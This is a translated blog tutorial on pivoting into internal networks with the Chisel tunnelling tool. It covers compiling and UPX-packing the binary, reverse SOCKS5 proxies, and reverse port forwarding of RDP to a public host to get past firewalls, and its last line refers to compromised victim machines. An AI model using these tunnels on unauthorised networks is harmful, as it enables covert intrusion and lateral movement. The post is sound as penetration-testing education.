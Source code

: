 
Pivot with Chisel
Pivoting With Chisel
Use Chisel to traverse the intranet

Posted on July 1st, 2019
ForewordRecently, when I encountered a target in the project on the intranet, I used Chisel to open a tunnel to the intranet. If I want to do something good, I must first sharpen my tools, so I decided to share this tool with everyone.

What is Chisel

Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang).

    Https://github.com/jpillora/chisel

The above is the explanation in chisel official GitHub repo

In one sentence, it is: Chisel is a fast TCP tunneling tool for writing open source communication encryption for bypassing firewalls using HTTP? protocol for transmission.

Features:

    Easy to use
    high performance
    Encrypted connection using SSH protocol (via crypto/ssh)
    Support for authentication
    Client automatically reconnects
    Clients can create multiple tunnels over a single TCP connection
    Clients can create an HTTP CONNECT proxy
    Server can choose to double as a reverse proxy
    The server can choose to create a SOCKS5 proxy
    Support reverse port forwarding

Why choose Chisel

Lcx is a well-known port forwarding tool in China. It is very stable but has a shortcoming. For example, using lcx to forward the RDP port of the intranet Windows, the RDP connection cannot be used after it is disconnected once, and the port must be re-executed. Forward

EarthWorm&Termite is really powerful, the file size is only a few tens of KB, but this tool is closed source, and it doesn’t feel good for free but closed source programs, because the tool has been killed and killed.

The author also stopped developing

Also found a tool called frp, a lot of features, but the operation requires a configuration file, not suitable for penetration of network penetration in the test.

There are many similar tools, you can choose according to your own needs.

Choosing to find Chisel is still quite good.
Install Chisel

Chisel is written in Go, so it supports almost all operating systems. It can download executable files for each operating system directly from GitHub, but it is relatively large. The executable file under the downloaded MacOS system is 8M in size, so I Choose to compile from source, customize the configuration to a smaller size

First, prepare the Go runtime environment. For the installation method of each operating system, see the official website:https://golang.org/doc/install

The following operations are performed under the MacOS system.

Need to be set before downloading GOPATH

Download chisel from github

go get -v github.com/jpillora/chisel

Compile

go build github.com/jpillora/chisel

Will generate an executable called Chisel in the current directory, let’s look at the size

▶ go build github.com/jpillora/chisel

▶ du -sh chisel
 11M	chisel

11 M, too large, you can reduce the file content by removing the symbol table (-s)and relocating information at compile time (-w).

▶ go build -ldflags "-s -w" github.com/jpillora/chisel

~/MyTools/Pivot
▶ du -sh chisel
8.8M	chisel

It’s 8M now, it’s still a bit big, try adding a UPX shell.

▶ upx -9 chisel
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2018
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   9258820 ->   3399696   36.72%   macho/amd64   chisel

Packed 1 file.

▶ du -sh chisel
4.0M	chisel

Now it’s 4M, it’s still a bit bigger than other tools, but it’s good to compress from 11M to 4M. The executable file compiled by go is very large because go compiles by default using static compilation, does not depend on any dynamic links. Library, so you can deploy to any running environment, don’t worry about dependency

Compile the Windows version on MacOS using the following command

▶ env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" github.com/jpillora/chisel

▶ file chisel-x64.exe
chisel-x64.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows

Compress with UPX

▶ du -sh chisel-x64.exe
8.0M	chisel-x64.exe

▶ upx chisel-x64.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2018
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   8342528 ->   3173376   38.04%    win64/pe     chisel-x64.exe

Packed 1 file.

▶ du -sh chisel-x64.exe
3.0M	chisel-x64.exe

If desired the compiled executable file in the other operating system, go buildprovided compile time GOOSand GOARCHis a value corresponding to the specific value Seeing GitHub Gist
Use Chisel to bounce Socks5 proxy

Chisel can use the Chisel to bounce a socks5 agent from the target network when it encounters a target in the penetration test or is blocked by the firewall.

The principle of Chisel’s rebound Socks5 agent is roughly as follows

The specific steps are as follows:

Executed in a host with a public IP address

chisel server -p 1111 --reverse  

The above command will listen to the local (0.0.0.0) port 1111 and allow the far end to specify the forwarding port.

chisel client 0.0.0.0:2222 socks 

The above command will start the socks5 service on the local 1080 port of 127.0.0.1 and forward the request to the local port 2222.

Executed in the host of the target network that needs to be accessed or in the host in the LAN environment

chisel client WANIP:1111 R:2222:127.0.0.1:3333 

The above command opens a tunnel on port 1111 of WANIP and maps the 2222 port of WANIP to the local 3333 port in this tunnel.

chisel server -p 3333 --socks5 

The above command starts the Socks5 service on the local 3333 port.

At this time, the Socks5 proxy of the public network host 1080 port leads to the other network through the tunnel of the 1111 port.

Conditional students can go to see Ippsec video demo
Port mapping using Chisel

Chisel can implement the same functions as lcx, as follows:

Start the Chisel server on the public network host:

chisel server -p 1337 --reverse

Start the Chisel client on the intranet host:

chisel client WANIP:1337 R:1234:LANIP:3389  

WANIP is the public network IP of the public network host, and LANIP is the internal network IP of the internal network host.

If the client mode of Chisel is started on server1 and the LANIP is the IP of server1, the port 3389 of server1 is mapped to port 1234 of the public network host.

If the client mode of Chisel is running on server1, but the LANIP is the IP of server2, the 3389 port of server2 is mapped to the port 1234 of the public network through server1.

From the second usage, Chisel’s port forwarding function is more powerful than lcx.

After mastering the above port forwarding skills, Ma Ma no longer has to![68747470733a2f2f646f63732e676f6f676c652e636f6d2f64726177696e67732f642f317035335657787a474e667938726a722d6d5738707669734a6d686b6f4c6c383276416763744f5f366631772f7075623f773d39363026683d373230](https://user-images.githubusercontent.com/55672787/165667055-f9811955-5791-4082-9aa6-8a370a60c261.png)
![2019-04-12-074113](https://user-images.githubusercontent.com/55672787/165667058-e4b09fcb-4e89-44f2-9e19-ceb30092d8f5.jpg)
![2019-04-17-143105](https://user-images.githubusercontent.com/55672787/165667059-52987548-4eca-496a-aa31-aafc7b006368.jpg)
 worry that I can’t access my fragrant broiler because of the firewall or internal and external network restrictions!
Reference link


